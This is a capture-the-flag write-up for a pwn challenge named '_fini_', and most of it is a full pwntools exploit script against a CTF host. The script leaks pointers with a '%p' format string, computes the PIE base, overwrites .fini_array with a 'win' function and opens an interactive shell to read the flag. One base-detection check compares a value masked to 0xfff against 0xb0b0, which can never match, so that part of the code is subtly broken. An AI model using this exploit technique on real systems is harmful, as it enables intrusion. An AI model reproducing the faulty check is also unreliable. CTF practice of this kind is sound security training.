 # _fini_

Category | Value
-- | --
Pwn | 100

***

I wrote an exploit script that:

* sends a series of `%p` format specifiers to leak stack/binary pointers,
* parses the leaked pointers and derives the PIE base,
* computes the `.fini_array` and `win` addresses from known offsets,
* uses the service's menu to overwrite the `.fini_array` entry with the `win` address,
* triggers the overwritten `.fini_array` entry to get a shell, then `ls` and `cat` the flag.

### Exploit script

```python
from pwn import *

HOST, PORT = "ctf.ac.upt.ro", 9668
context.log_level = "info"

OFF_WIN        = 0x1380
OFF_FINI_ARRAY = 0x31c8
OFF_MAIN       = 0x10b0
OFF_EXIT_GOT   = 0x3420  

def pick_base(leaks):
    for x in leaks:
        if (x & 0xfff) == 0xb0b0:
            return x - OFF_MAIN

    for x in leaks:
        if (x & 0xfff) == 0x1c8:
            return x - OFF_FINI_ARRAY
    return None

def parse_leaks(line_bytes):
    line = line_bytes.replace(b'!', b' ').split()
    leaks = []
    for t in line:
        if t.startswith(b"0x"):
            try:
                leaks.append(int(t, 16))
            except:
                pass
    return leaks

def main():
    io = remote(HOST, PORT)

    io.recvuntil(b"name?")
    io.sendline(b"%p " * 32)

    io.recvuntil(b"Hello, ")
    leaks = parse_leaks(io.recvline())
    base = pick_base(leaks)
    assert base, f"Couldn't find base from leaks: {leaks}"

    fini = base + OFF_FINI_ARRAY
    win  = base + OFF_WIN

    log.success(f"PIE base  = {hex(base)}")
    log.info(   f".fini_arr = {hex(fini)}")
    log.info(   f"win       = {hex(win)}")

    io.recvuntil(b"> ")
    io.sendline(b"1")
    io.recvuntil(b": ")
    io.sendline(hex(fini).encode())
    io.recvuntil(b": ")
    io.sendline(hex(win).encode())
    io.recvuntil(b"ok")

    io.recvuntil(b"> ")
    io.sendline(b"2")

    io.interactive()

if __name__ == "__main__":
    main()
```

